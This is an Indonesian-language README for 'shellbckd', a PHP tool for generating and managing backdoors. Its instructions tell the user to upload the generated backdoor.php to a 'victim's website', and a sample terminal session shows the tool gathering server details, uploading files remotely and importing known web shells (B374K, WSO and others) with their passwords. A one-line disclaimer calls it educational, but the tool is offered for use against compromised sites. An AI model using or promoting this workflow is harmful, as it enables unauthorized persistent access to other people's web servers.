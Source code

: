 # shellbckd
#### Versi 1.0

<p align="pusat">
  <img src="https://github.com/Yoga913/shellbckd/blob/main/sheellbackdor.png" alt="Deskripsi Gambar" width="300">
</p>

----
shellbckd adalah alat manajemen Backdor Sederhana berbasis PHP. Alat ini berguna bagi "PERETAS" yang ingin melacak setiap situs web yang mereka retas. Alat ini menghasilkan file Backdor yang hanya perlu Anda unggah ke situs dan meletakkan URL Backdor di shells.txt yang ada di direktori alat.

# Dengan shellbckd Anda bisa

- Impor Shell PHP
- Dapatkan Detail Server
- Unggah File Dari Sistem Anda menggunakan terminal Anda
- Dan yang terpenting, Anda Dapat Mengelola Backdor Anda dengan Efisien

# Cara Penggunaan

1. `git clone https://github.com/Yoga913/shellbckd`
2. `cd shellbckd`
3. `php shellbckd.php`
4. `generatebd` dan keluar dari alat gunakan <kbd>CTRL</kbd> + <kbd>C</kbd> - Ini akan menghasilkan file Backdor di direktori yang sama dengan alat dalam file bernama **backdoor. php**
5. Upload File Backdoor Ke Website Korban
6. Salin URL Backdor dan tempel di file **shells.txt** yang ada di direktori alat dan simpan (*Setiap Backdor dipisahkan oleh baris baru*)
7. `php shellbckd.php`
8. Masukkan **Nomor Seri** yang Ditugaskan ke Backdor
9. Istirahat cukup jelas

# Persyaratan
```
php
curl
```
# Contoh
```
root@kalilinux:/home/kalilinux/Desktop/shellbckd# php shellbckd.php

   #####################################################################             
###                                                                     ##-           
##   ##################################+##############################   ##           
##   ##                     ############ #############              ##  .#+           
##   ##                  ######          #    **     #              ##  .#+           
##   ##                #####  ##         #   *   *   #              ##  .#+           
##   ##                #   ## ##         #  *  !  *  #              ##  .##           
##   ##                ##### ##########  # *#****#+ ##              ##  .#+           
##   ##                   ###  #       # #           #              ##  .#+           
##   ##                    ##  #   ###   #           #              ##  .#+           
##   ##          #########-    #   #  #  #           #              ##  .#+           
##               ##############    #  # ##           #              ##  .#+           
##   ##                    ##-+#####  ##  ##         #              ##  .#+           
##   ##               #####        #    ##           #              ##  .#+           
##   ##           ####  ########   ###   #           #              ##  .#+           
##   ##           ##  ##   ##   ##.   ####           #              ##  .#+           
##   ##           ##  #    ##     ###    #           #              ##  .#+           
##   ##            #  #    ##            #           #              ##  .#+           
##   ##          #######   ############# #############              ##  .#+           
##   ##                                                             ##  .#+           
##   #################################################################  .#+           
##                                                                       ##           
##                                                             ##   ##  +##           
 ####+.......................                  ..............     .   ###            
     #########################################-#######################                
                        ##..-----------.   ##                                        
                       ##               .+ +##                                        
                     ###                     ###                                      
         ###################################################                          

 Sistem Manajemen Backdor Sederhana
 Dibuat oleh: yoga913
Catatan:$bold Saya Memebuat nya untuk kegiatan pendidikan penelitian selebihnya tidak bertanggung jawa.
==========================================================================================



Daftar Backdor:

0.http://localhost/backdoor.php
===============

[#] Masukkan salah satu dari ini (Nomor Backdor|bantuan|hasilkanbd): 0

[+] Shell Dipilih: http://localhost/backdoor.php
[+] Memvalidasi Backdor: Backdor Ditemukan!

Daftar Tindakan
================
[1] Impor Shell PHP
[2] Detail Server
[3] Hapus Backdor
[4] Unggah File Jarak Jauh
[5] Keluar

[#] Pilih Opsi(1|2|3|4|5):2

[+] Info Server
[i] Mengirim Permintaan Dan Mendapatkan Respons...
[i] Server: Linux Kalilinux 4.9.0-kali4-amd64 #1 SMP Debian 4.9.30-1kali1 (06-06-2017) x86_64
[i] IP Server: 127.0.0.1


Tekan Enter Untuk Melanjutkan


Daftar Tindakan
================
[1] Impor Shell PHP
[2] Detail Server
[3] Hapus Backdor
[4] Unggah File Jarak Jauh
[5] Keluar

[#] Pilih Opsi(1|2|3|4|5):1


Daftar Kerang
===============
[1] busur shell {Pengguna & Pass: shellbckd123}
[2] B374K shell {Lulus : shellbckd123}
[3] Kurama shell V.1.0 {Lulus : merah}
[4] WSO shell {Lulus : shellbckd123}
[5] MiNi shell {Pengguna & Pass: shellbckd123}

[#] Pilih Shell Untuk Diimpor(1-5):1


[i] Mengimpor Shell...
[i] Mengirim Permintaan Dan Mendapatkan Respons...
[R] Dhanush Shell Berhasil Diimpor Ke /var/www/html/busur.php


Tekan Enter Untuk Melanjutkan


Daftar Tindakan
================
[1] Impor Shell PHP
[2] Detail Server
[3] Hapus Backdor
[4] Unggah File Jarak Jauh
[5] Keluar

[#] Pilih Opsi(1|2|3|4|5):5
root@Kalilinux:/home/kalilinux/Desktop/shellbckd#

```
